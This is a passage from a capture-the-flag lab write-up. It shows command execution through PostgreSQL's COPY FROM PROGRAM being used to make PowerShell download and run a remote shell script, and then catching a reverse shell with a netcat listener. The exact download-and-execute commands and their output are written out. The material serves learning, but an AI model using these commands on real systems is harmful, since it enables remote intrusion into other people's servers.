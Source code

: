 Now comes the most important step, downloading my shell on the target. Since we can execute commands like **whoami** via PostgreSQL, we could also download the file with powershell and start it. I search on Google for a way to download a file with Powershell and I come across a book on Google Books, in which I am unfortunately very little allowed to read, but I can see what I need. 
![Image](/assets/img/WriteUp/ITSL/Back2Back/ITSL-Back2Back-2.png){: width="700" height="400" }


I modify the command to the following: **COPY cmd_exec FROM PROGRAM 'powershell -exec bypass -c iex(new-object net.webclient).downloadstring(''http://10.0.2.15/shell.ps1'')';** and I press enter in the database session. I get a COPY 0 as a response, this means that it didn't go well. I check my command again and I'm really convinced that this should work. So I was thinking there’s more than one Way to skin a cat. A colleague I often work with has worked a lot with Powershell as an administrator and I explain my problem to him. Alternatively, the file could first be brought to the machine with a generic download command and then run. It may be two steps to perform, but if it works, it works. :smiley:

In the database session I run the two commands, the first to download and save the file. And the second calls the script again. 
  

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
COPY cmd_exec FROM PROGRAM 'powershell -exec bypass Invoke-WebRequest -Uri http://10.0.2.15/shell.ps1 -OutFile shell.ps1';
COPY cmd_exec FROM PROGRAM 'powershell -exec bypass ./shell.ps1';
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


After the commands have been executed, I see a connection in the terminal in my netcat listener. 


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(eMVee@kali)-[~/Documents/Back2Back]
└─$ nc -lvp 4455
listening on [any] 4455 ...
10.0.2.27: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.27] 49165
Windows PowerShell running as user svc-postgres on WIN-KBP5VDTN99V
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files\PostgreSQL\9.6\data>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

In my reverse shell I see that I am connected to WIN-KBP5VDTN99V as user svc-postgres.
First I decide to run the command **dir** to see which files are present in the current folder. 


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PS C:\Program Files\PostgreSQL\9.6\data>dir


    Directory: C:\Program Files\PostgreSQL\9.6\data


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----         11/3/2021  10:00 PM            base                              
d----         11/9/2021  11:43 AM            global                            
d----         11/3/2021  10:00 PM            pg_clog                           
d----         11/3/2021  10:00 PM            pg_commit_ts                      
d----         11/3/2021  10:00 PM            pg_dynshmem                       
d----         11/9/2021  11:42 AM            pg_log                            
d----         11/3/2021  10:00 PM            pg_logical                        
d----         11/3/2021  10:00 PM            pg_multixact                      
d----         11/9/2021  11:42 AM            pg_notify                         
d----         11/3/2021  10:00 PM            pg_replslot                       
d----         11/3/2021  10:00 PM            pg_serial                         
d----         11/3/2021  10:00 PM            pg_snapshots                      
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
